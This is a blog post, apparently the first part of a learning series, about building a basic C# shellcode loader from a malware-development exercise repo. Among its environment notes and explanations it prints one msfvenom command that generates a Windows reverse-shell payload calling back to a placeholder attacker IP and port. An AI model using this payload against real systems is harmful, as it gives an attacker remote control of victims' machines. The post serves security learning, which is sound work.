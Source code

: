 ```yaml
---
title: Dummies' Malware I
date: 2023-1-29 12:00:00 -800
categories: [malware]
tags: [malware, development, c#] # Always lowercase.
---
```


# A Script Kiddie's First Malware

## Introduction

I came across chvancooten's [Malware Development for Dummies](https://github.com/chvancooten/maldev-for-dummies) repo and thought I would give it a spin.

I decided to go with C# for these exercises but the repo has exercises and tips for C#, Nim, and Golang. I have some experience programming but zero experience programming in C# so this was a nice challenge and opportunity to learn!

> **Disclaimer**: The information, techniques, and solutions detailed in this blog are for educational purposes only. Do not use this content for malicious and/or illicit purposes.

## Quick Dev Environment Note

For my development environment, I am using Visual Studio 2019 with the .NET Desktop Development module installed. The .NET module allows us to code in C#. I did most of my coding using the console apps preset. I was having difficulty using Visual Studio 2022 but found the best results using 2019.

I tested my solutions on a VM running Commando but any Windows 10 device with Windows Defender disabled should work too. I am also using a Kali VM to generate shellcode and to host a listener.

## Objective

The objective of the first exercise is to create a basic shellcode loader that will utilize Windows APIs to load our shellcode into memory and execute it. If that all sounds like gibberish, that's ok! Let's go through the basic elements of this shellcode loader step by step so we can make more sense of it.

## Shellcode
Shellcode is usually described as code executed by a target program to grant the attacker a remote shell. This code can essentially let the attacker gain access to a victim's system.

We will be using `msfvenom` to generate shellcode in either a binary or hex format.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=attackerIP LPORT=attackerPort -f csharp
```

Switches
* -p specifies the payload. windows/x64/shell_reverse_tcp will give us a reverse shell on x64 based systems.
* LHOST and LPORT specifies the listener's IP and port which will catch the reverse shell.
* -f specifies the format that msfvenom will output the shellcode as. In this case, the shellcode will be in C# syntax.
